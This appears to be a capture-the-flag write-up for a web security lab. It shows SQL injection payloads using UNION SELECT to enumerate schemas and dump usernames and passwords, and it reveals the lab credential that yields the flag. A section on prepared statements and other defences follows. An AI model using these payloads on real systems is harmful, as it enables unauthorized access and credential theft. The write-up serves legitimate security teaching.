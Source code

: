 ### CTF

Once again, we will be using SQL injections in order to capture the flag. We are however going to go through a slightly different method. But first, got to the Members page.

We have already noticed the `db_default` contains two interesting pieces of information, `username` and `password`, in a previous exploit. However, injecting a request such as:
```
    1 AND 1=2 UNION SELECT username, password FROM db_defaut.columns
```
will return the following error:
```
    SELECT command denied to user 'borntosec'@'localhost' for table 'columns'
```
Finally, a request that requires user privilege! Fear not, there is simple way of getting around this issue. Let's look at the different table schemas via
```
    1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables
```
The actual table is `Member_Brute_Force.db_default`, as `db_default belongs` to `Member_Brute_Force`. Simply type:
```
    1 AND 1=2 UNION SELECT username, password FROM Member_Brute_Force.db_default
```
There are merely two users, root and admin, which share the same password `shadow`. Enter one or the other logins at sign in and you've got yourself another flag.

### How to protect yourself

#### Main solutions

There is multiple solutions:
- One simple solution, and one of the most secured would be to use prepared SQL requests, meaning requests that takes parameters.
Prepared requests' parameters are not interpreted as SQL, so one could alter the initial request.
- Use of stored procedures. That would mean creating an alias to a SQL request, this alias can take parameters.  
However this solution is not always completely safe, especially if includes any unsafe dynamic SQL generation.
- One could also create a whitelist input validation. This can be useful if you espect different specific values.
- Another solution would be to escape all user input so it can't be interpreted as a request.  
Of course you would not escape password inputs, you should hash them, because... who still stores clear passwords ?

